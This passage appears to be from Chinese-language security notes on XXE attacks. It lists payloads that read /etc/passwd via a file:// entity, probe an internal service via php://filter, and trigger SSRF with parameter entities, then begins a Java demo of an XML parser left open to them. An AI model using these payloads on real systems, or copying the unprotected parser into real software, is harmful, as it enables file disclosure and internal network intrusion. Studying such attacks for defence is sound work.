- file协议读取文件

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY fengxuan SYSTEM "file:///etc/passwd"> ]> 
<creds>&fengxuan;</creds>
```



- 探测内网

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY fengxuan SYSTEM "php://filter/convert.base64-encode/resource=http://localhost:8111"> ]> 
<creds>&fengxuan;</creds>
```

- SSRF

```xml-dtd
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://localhost:8111/">
%remote;%int;%send;
]>
```



#### Java漏洞demo

```java
import java.io.File;

import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;

import org.w3c.dom.Attr;
import org.w3c.dom.Comment;
import org.w3c.dom.Document;
import org.w3c.dom.Element;
import org.w3c.dom.NamedNodeMap;
import org.w3c.dom.Node;
import org.w3c.dom.NodeList;

/**
 * 使用递归解析给定的任意一个xml文档并且将其内容输出到命令行上
 * @author zhanglong
 *
 */
public class xml_test
{
    public static void main(String[] args) throws Exception
    {
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        DocumentBuilder db = dbf.newDocumentBuilder();

        Document doc = db.parse(new File("student.xml"));
        //获得根元素结点
        Element root = doc.getDocumentElement();

        parseElement(root);
    }

    private static void parseElement(Element element)
    {
        String tagName = element.getNodeName();
```